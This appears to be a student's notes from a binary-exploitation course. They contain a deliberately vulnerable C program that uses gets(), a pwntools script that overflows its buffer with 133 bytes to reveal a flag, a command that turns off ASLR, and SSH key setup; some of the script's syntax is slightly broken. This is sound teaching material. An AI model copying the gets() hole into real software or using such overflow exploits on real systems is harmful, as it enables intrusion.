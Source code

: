 `stack0r`
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
	volatile int unsecured = 0;
	char buffer[{{buffsize}}];
	FILE *fp;

	gets(buffer);
	fp = fopen("./flag.txt", "r");

	if(unsecured != 0) {
		printf("The 'unsecured' variable has been changed!\n");
		printf("Warning! Multiool is no longer in security mode\n");
		fgets(buffer, 64, (FILE*)fp);

		printf("flag: %s\n", buffer );
	} 
	else {
		printf("Try again?\n");
	}
}
```
- solve in docker, not on the course server

`exploit.py`
```python
from pwn import *

elf = ELF('./stack0-64')
context.binary=elf
context.log_level = 'debug'

#connect to the ssh server and automatically get the flag
s = ssh['kcjesse', 'cs4401.walls.ninja', keyfile='../keyfile']
s.set_working_directory('/problems/stack0r-64_3_52a9d8eafadefebc6c9c5da0e766b02e/')
p = s.process('./stack0-64');

#opens in gdb
p = gdb.debug('./stack0-64', gdbscript'''
				break stack0.c:12
				shell tmux select-layout main-vertical
				shell tmux swap-pane -U
				continue
				''')
p.sendline(b'a'*133)

p.recvall() #gets all data
p.wait() #wait until process is finished
```
note about `sendline()`: adds a newline `\n` character after the text

add code to solve on the server
```python
s = ssh('kcjesse', 'cs4401.walls.ninja', keyfile='../keyfile')
s.set_working_directory('/problems/stack0r-64_3_52a9d8eafadefebc6c9c5da0e766b02e/')
p = s.process('./stack0-64');

```

### ASLR
- address randomization, changes the 
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
### SSH KEY STUFF
```bash
# Generate the key pair for username bro 
ssh-keygen -t rsa -f ./kcjesse_ssh_key -C kcjesse -b 2048 
# Install the public key on the server 
ssh-copy-id -i kcjesse_ssh_key.pub kcjesse@cs4401shell.walls.ninja 
# Test to make sure the public key was created correctly 
ssh -i ./keys/kcjesse_ssh_key kcjesse@cs4401shell.walls.ninja

ssh kcjesse@cs4401shell.walls.ninja
```

Recall [[Memory Virtualization]]
- The Address Space is 